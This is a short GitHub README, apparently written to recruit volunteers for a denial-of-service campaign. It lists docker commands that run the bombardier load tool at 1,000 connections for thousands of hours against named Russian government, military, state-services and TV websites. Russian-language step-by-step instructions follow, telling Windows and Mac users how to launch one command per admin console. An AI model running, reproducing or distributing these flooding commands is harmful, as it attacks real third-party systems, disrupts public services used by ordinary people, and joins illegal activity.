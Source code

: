 # bombardier
Fight agains propoganda

If you have kubertnetes cluster `./run_all_kuber.sh`
<br>
From local PC `./run_all_docker.sh`
<br>
or easiest way 

`docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l http://kremlin.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://mil.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l http://www.scrf.gov.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://ach.gov.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://epp.genproc.gov.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://www.gosuslugi.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://www.1tv.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://mid.ru`
<br>

Инструкция для пользователей Windows и Mac: 
1. Установить Docker: https://www.docker.com/products/docker-desktop 
2. Запустить докер и убедиться, что Docker Started 
3. Зайти сюда https://github.com/almerico/bombardier/blob/main/README.md 
4. Найти в программах Windows Command Prompt и запустить от имени Администратора 
5. Запустить столько отдельных CMD консолей, сколько вы собираетесь запускать скриптов (каждая строчка - скрипт) 
6. Скопировать скрипт (например docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l http://kremlin.ru) и нажать энтер 
7. Убедиться, что процесс пошёл 
8. Ждать падения рашки
